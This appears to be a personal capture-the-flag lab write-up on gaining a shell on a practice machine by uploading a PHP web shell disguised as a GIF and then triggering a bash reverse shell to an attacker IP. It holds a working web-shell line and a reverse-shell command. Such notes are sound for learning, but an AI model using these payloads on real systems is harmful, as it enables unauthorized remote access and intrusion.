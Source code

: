 # Getting a Shell 

## Uploading malicious php code to the web application http://10.10.10.146/upload.php
Content of the file (normally apache for execute php code, the file has to end in .php , but this machine execute php just to have php on the name. Odd, is not normal this.) 
### Explaination : bad code on the server, developer dont use <FilesMatch ".php$> on code 
### ($ sign means with have to end with this '.php$' -> end with .php)
```bash
$ cat shell.php.gif 
GIF8;
<?php system($_REQUEST['eris']); ?>

```

![[Pasted image 20211202122208.png]]

### Go to photos.php to check the file http://10.10.10.146/photos.php
![[Pasted image 20211202122307.png]]

![[Pasted image 20211202122340.png]]


### Sending the request to Burp to url encode (default config on client Request dont intercept images)
![[Pasted image 20211202122909.png]]


* payload
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.21/9001 0>&1"
```
![[Pasted image 20211202123105.png]]

![[Pasted image 20211202123123.png]]
